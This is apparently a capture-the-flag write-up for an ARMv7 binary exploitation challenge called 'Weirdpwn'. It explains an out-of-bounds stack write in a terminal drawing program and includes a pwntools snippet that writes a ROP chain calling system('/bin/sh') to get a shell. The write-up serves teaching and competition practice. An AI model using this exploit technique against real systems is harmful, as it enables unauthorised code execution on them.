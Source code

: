 # Description(s)
- Challenge name: Weirdpwn
- Proposed difficulty: Very Hard
- Challenge description: 

    Jeg lavede et program til at tegne i terminalen på mit kursus i grafik.
    Siden M1 er populært nu om dage, besluttede jeg mig for at øve mig på noget ARM.
            
    [challenge_x.zip](https://nextcloud.ntp-event.dk:8443/s/ENGaEg9NcjEaAoe/download/challenge_x.zip)
            
    `nc weirdpwn.hkn 1024`

# Intended solution
By alanyzing this program, we can see the this is a statically linked ARMv7 binary.

It is running with the following protections:
```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

Notable it has no PIE so we need no leak of the program address.

This challenge is conceptually really easy, the hard pard is working with developing an exploit for a different architecture.

For the full exploit see `solve.py`.

Ideally you would use Qemu to develop an exploit. Qemu allows attaching and wainting for a network debugger with the `-g` flag.
Running the challenge binary like so will wait for a debugger `qemu-arm -g 5555 challenge`.

Now, in a different terminal you open gdb and load the binary, the shorthand is `gdb ./challenge`.
Instead of running the binary with `r`, you attach to the qemu session by running `target remote localhost:5555`.
Now gdb is attached and you can develop an exploit.

The vulnerablility lies in the fact that an image is stored on the stack, and no bound guards are applied when drawing to it, so drawing outside the frame will lead to clobbering the stack.

Through some experimentation the return address is overwritten by writing to the following coordinates `-12 0 -8 0 65`.
This will overwrite the pc with 'AAAA'.
As we need to pick a color for each line we draw we need to draw a dot 4 times to get an arbitrary 4-byte write.

The program is statically compiled and uses `system` to run the time command. This means that the __libc_system function is compiled into the binary.

The ARM calling convention says that the first argument is passed in `r0`, so we need to find a gadget to control r0.
Once such a gadget has been located, it can be "drawn" on the stack like so:
```
baddr = p32(0x0002b9f4) #gadget pop {r0 r4 pc}
baddr += p32(binsh) # r0 the address of the /bin/sh string 
baddr += p32(0x0)   # TRASH
baddr += p32(system) # call system
p.sendline("3")
p.recvuntil(b"?\r\n")
p.sendline("16")
for a in range(16):
    p.sendline(f"{(12-a)*-1} 0 {(12-a)*-1} 0 {int(baddr[a])}")
```
